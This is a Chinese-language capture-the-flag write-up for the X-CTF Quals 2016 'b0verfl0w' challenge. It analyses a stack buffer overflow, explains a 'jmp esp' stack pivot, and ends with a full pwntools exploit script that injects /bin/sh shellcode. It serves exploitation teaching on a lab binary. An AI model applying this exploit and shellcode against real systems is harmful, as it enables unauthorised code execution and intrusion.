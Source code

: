 ```yaml
---
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 


title: X-CTF Quals2016 b0verfl0w-wp
date: 2023-09-05 16:00:54
tags:
- CTF
- pwn
- stack 
- stack pivot
- XCTFQuals2016
- nightmare
categories:
- pwn-wp
---
```


[相关资源](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF Quals 2016 - b0verfl0w)  

## 文件分析

```assembly
$ checksec b0verfl0w
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 代码分析

明显栈溢出

```sh
int vul() {
  char s[32]; // [esp+18h] [ebp-20h] BYREF
  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(s, 50, stdin);
  printf("Hello %s.", s);
  fflush(stdout);
  return 1;
}
```

## 攻击方法

栈上可执行 首先想着就是在s数组中写入shellcode然后跳转到s   但因为aslr栈地址随机化无法知道s的地址  也没有别的后门函数

查看`jmp`gadget发现

```assembly
$ ROPgadget --binary b0verfl0w --only "ret|jmp"
Gadgets information
============================================================
[...]
0x08048504 : jmp esp
[...]
```

### jmp esp用处

当当前函数执行到`leave`指令后（即`mov esp, ebp;pop ebp`），esp指向`ret addr`，接着`ret`跳转执行 `esp = esp + 4; eip = ret addr`

```
|------------|------...----|     |------------|------...----|
|  addr 0x11 |      ...    |  →  | addr 0x11  |      ...    |
|------------|------...----|     |------------|------...----|
↑ esp 									   ↑ esp     eip = 0x11
```

但如果ret addr处地址为`jmp esp`的地址  则执行完jmp之后，eip和esp指向同一块位置，也就是接着执行栈上的指令

```
|------------|------...----|      |------------|------...----|
|  addr 0x11 |      ...    |  →   | addr 0x11  |      ...    |
|------------|------...----|      |------------|------...----|
↑ esp 	                                       ↑ esp   eip = 0x11(jmp esp)
               |------------|------...----|
 ➤ jmp esp ➤   | addr 0x11  |      ...    |
               |------------|------...----|
                            ↑ esp,eip
```

因此我们可以在ret addr之后写入汇编指令  但是由于只有`50 - 32 = 18`字节的溢出空间，显然不够写入完整shellcode 

但是可以把shellcode写入变量s  在ret addr之后写入`sub esp, 0x28;jmp esp`   0x20(s) + 0x4(old ebp) + 0x4(ret addr) = 0x28

这样子就可以把esp移到变量s的地址，然后跳转执行s里的shellcode

## exp

```python
from pwn import *
import sys

context(os='linux', arch='i386', log_level='debug')

mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]
proc = process("./b0verfl0w")

gscript = '''
    b * 0x0804857A
    c
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

# shellcode, from https://shell-storm.org/shellcode/files/shellcode-811.html
shcode = b"\x31\xc0\x50\x68\x2f\x2f\x73"
shcode += b"\x68\x68\x2f\x62\x69\x6e\x89"
shcode += b"\xe3\x89\xc1\x89\xc2\xb0\x0b"
shcode += b"\xcd\x80\x31\xc0\x40\xcd\x80"   

ret = 0x0804836a
jmp_esp = 0x08048504
sub_esp_jmp = asm("sub esp, 0x28;jmp esp")	# move esp back to s, then jmp to esp

proc.sendlineafter(b'name?', shcode.ljust(0x24, b'h') + p32(jmp_esp) + sub_esp_jmp)

proc.interactive()
pause()
```
